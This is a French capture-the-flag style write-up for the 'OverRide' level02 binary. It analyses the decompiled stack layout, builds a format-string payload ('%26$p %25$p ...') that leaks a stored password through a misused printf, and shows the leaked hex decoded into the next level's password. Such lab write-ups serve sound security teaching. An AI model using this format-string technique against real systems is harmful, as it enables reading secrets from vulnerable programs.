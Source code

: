 Solution :

Dans le code source on peu constater plusieur point :

un printf mal formater est utiliser, il affiche la variable local_78
la variable local_a8 contient le mot de passe du level3

On va donc essayer d'exploiter printf pour afficher la variable local_a8 :

```
    undefined8 __stdcall main(void)
    undefined8        RAX:8          <RETURN>
    undefined8        Stack[-0x10]:8 local_10                                XREF[5]:     00400889(W), 
    004008ad(W), 
    004008b1(R), 
    004008ed(R), 
    0040097d(R)  
    undefined4        Stack[-0x14]:4 local_14                                XREF[3]:     00400891(W), 
    00400906(W), 
    00400925(R)  
    undefined4        Stack[-0x78]:4 local_78                                XREF[6]:     0040082c(*), 
    00400843(*), 
    004009cd(*), 
    004009de(*), 
    00400a71(*), 
    00400a96(*)  
    undefined1        Stack[-0xa8]:1 local_a8                                XREF[5]:     00400849(*), 
    00400863(*), 
    004008e6(*), 
    00400909(*), 
    00400a51(*)  
    undefined4        Stack[-0x118   local_118                               XREF[5]:     00400869(*), 
    00400883(*), 
    00400a10(*), 
    00400a24(*), 
    00400a4a(*)  
    undefined4        Stack[-0x11c   local_11c                               XREF[1]:     0040081f(W)  
    undefined8        Stack[-0x128   local_128                               XREF[1]:     00400825(W)  
```

Ici local_a8 est a a8 de distance avec le haut de la stack 
a8 = 168 bytes de distance
168 / 8 (ou 4 sur architecture de 32bits) = 21

21 + 5 (les argument de l'appel de printf) = 26

le mot de passe fait fait une taille de 0x29 donc 41 en decimal, ce qui fait 5 print 

payload :

%26$p %25$p %24$p %23$p %22$p

----------------------------------------------------------------
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %26$p %25$p %24$p %23$p %22$p    
--[ Password: 
*****************************************
0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848 does not have access!


On retire les 0x et les espace :

48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848 -> in ASCII -> H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

on inverse et cela donne :

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
